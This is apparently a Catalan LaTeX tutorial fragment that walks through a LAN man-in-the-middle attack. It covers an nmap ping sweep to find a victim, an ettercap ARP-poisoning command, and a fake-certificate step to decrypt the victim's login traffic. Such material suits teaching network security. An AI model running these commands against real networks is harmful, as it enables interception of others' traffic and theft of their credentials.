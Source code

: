 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
Ara hem de conèixer en quin escenari ens trobam, primer de tot identificar la nostra adreça IP
i targeta de xarxa. La targeta de xarxa si es cablejada segurament serà \texttt{eth0},
així doncs amb un \texttt{ifconfig eth0} hauríem de veure la nostra adreça IP al camp
\texttt{inet addr}.

Un cop fet això cercam les víctimes, una manera de fer-ho és emprant el programa \texttt{nmap},
aquest llança \emph{pings} a totes les adreces de la nostra xarxa i mira quines responen.

\begin{verbatim}
nmap -sP 192.168.1.0/24
\end{verbatim}

això ens respondrà amb un

\begin{verbatim}
Starting Nmap 5.21 ( http://nmap.org ) at 2011-05-24 12:23 CEST
Nmap scan report for 192.168.1.40
Host is up (0.0011s latency).
Nmap scan report for 192.168.1.63
Host is up (0.00062s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 29.89 seconds
\end{verbatim}

En el nostre cas la víctima és \texttt{192.168.1.63}, nosaltres som l'atacant
amb la adreça \texttt{192.168.1.40}.

Ara toca fer l'enverinament ARP perquè la víctima ens envii a nosaltres els paquets
en lloc del \emph{router} i així poder-los veure i contestar. Aquesta tècnica també
és coneguda com \emph{man in the middle}.

\begin{verbatim}
ettercap -Tq -i eth0 -M arp:remote,oneway /192.168.1.63/ //
\end{verbatim}

Ara senzillament toca esperar que la víctima intenti loguejar i accepti el nostre
certificat fals. En aquest instant la connexió estarà xifrada amb el nostre certificat
i per tant podem desxifrar el missatge enviat. Tot això ho fa el \texttt{ettercap} per nosaltres.
\end{document}
